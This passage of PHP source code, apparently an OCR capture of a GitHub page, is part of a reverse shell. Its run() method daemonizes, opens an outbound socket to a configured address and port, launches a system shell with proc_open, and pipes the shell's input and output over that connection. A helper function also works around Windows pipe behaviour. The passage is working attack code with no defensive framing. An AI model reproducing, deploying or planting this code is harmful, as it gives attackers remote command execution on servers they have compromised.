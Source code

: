 ```bash
    }
    // read/write method for blocking streams (e.g. for STDOUT and STDERR on Windows OS)
    // we must read the exact byte length from a stream and not a single byte more
    private function brw($input, $output, $iname, $oname) {
        $size = fstat($input)['size'];
        if ($this->os === 'WINDOWS' && $iname === 'STDOUT' && $this->clen) {
            // for some reason Windows OS pipes STDIN into STDOUT
            // we do not like that
            // so we need to discard the data from the stream
            while ($this->clen > 0 && ($bytes = $this->clen >= $this->buffer ? $this->buffer : $this->clen) && $this->read($input, $iname, $bytes)) {
                $this->clen -= $bytes;
                $size -= $bytes;
            }
        }
        while ($size > 0 && ($bytes = $size >= $this->buffer ? $this->buffer : $size) && ($data = $this->read($input, $iname, $bytes)) && $this->write($output, $oname, $data)) {
            $size -= $bytes;
            $this->dump($data); // script's dump
        }
    }
    public function run() {
        if ($this->detect() && !$this->daemonize()) {
            $this->settings();

            // ----- SOCKET BEGIN -----
            $socket = @fsockopen($this->addr, $this->port, $errno, $errstr, 30);
            if (!$socket) {
                echo "SOC_ERROR: {$errno}: {$errstr}\n";
            } else {
                stream_set_blocking($socket, false); // set the socket stream to non-blocking mode | returns 'true' on Windows OS

                // ----- SHELL BEGIN -----
                $process = @proc_open($this->shell, $this->descriptorspec, $pipes, null, null);
                if (!$process) {
                    echo "PROC_ERROR: Cannot start the shell\n";
                } else {
                    foreach ($pipes as $pipe) {
                        stream_set_blocking($pipe, false); // set the shell streams to non-blocking mode | returns 'false' on Windows OS
                    }

                    // ----- WORK BEGIN -----
                    $status = proc_get_status($process);
                    @fwrite($socket, "SOCKET: Shell has connected! PID: {$status['pid']}\n");
                    do {
                        $status = proc_get_status($process);
                        if (feof($socket)) { // check for end-of-file on SOCKET
                            echo "SOC_ERROR: Shell connection has been terminated\n"; break;
                        } else if (feof($pipes[1]) || !$status['running']) {                 // check for end-of-file on STDOUT or if process is still running
                            echo "PROC_ERROR: Shell process has been terminated\n";   break; // feof() does not work with blocking streams
                        }                                                                    // use proc_get_status() instead
                        $streams = array(
                            'read'   => array($socket, $pipes[1], $pipes[2]), // SOCKET | STDOUT | STDERR
                            'write'  => null,
                            'except' => null
                        );
```
